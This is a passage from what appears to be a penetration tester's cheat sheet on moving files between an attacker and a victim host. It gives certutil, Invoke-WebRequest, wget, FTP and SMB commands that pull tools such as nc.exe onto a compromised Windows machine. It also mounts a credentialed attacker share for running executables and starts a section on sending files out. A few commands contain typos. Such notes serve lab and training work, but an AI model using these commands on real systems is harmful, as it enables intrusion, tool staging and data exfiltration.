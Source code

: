```
- Victim run
```
certutil.exe -urlcache -f http://<%tp.frontmatter.IP%>:<%tp.frontmatter.Port%>/file.txt file.txt
```
```
iwr -Uri http://10.10.10.10.:8000/file.txt -Outfile file.txt
```
```
wget http://10.10.10.10:8000/file.txct
```

#### FTP
- Attacker Run
```
python -m pyftpdlib -p 21
```
- Victim run
```
ftp <attacker ip>
anonymous
get file.txt
```

```
http://www.pentestpundit.com/2020/05/create-pure-ftpd-server-to-transfer-payloads-kali.html
```
#### SMB Server
- Attacker Run
```
smbserver.py share share/ -smb2support
```
- Victim Run
```
copy \\10.10.14.7\share\nc.exe c:\windows\temp 
```


- We can also set up the drive in a way that our victim has more persistent access to save constant uploading from webserver

```
smbserver.py <SMBDRIVENAME> $pwd -smb2support -user <user> -password <password>
```

- On victim run
```
$pass = convertto-securestring '<password>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('<user>',$pass)
New-PSDrive -Name <user> -PSProvider FileSystem -Credential $cred -Root <LOCAL>\<SMBDRIVENAME>
```
-Now we can access with
```
cd <Username>:
```
- We can now run executables directly from here
## Victim To Attacker
#### HTTP
- Reverse of above

#### FTP
- Attacker run
```
python -m ftpdlib -p 21 -w
```
- Victim Run
```
ftp <attacker ip> 
get file.txt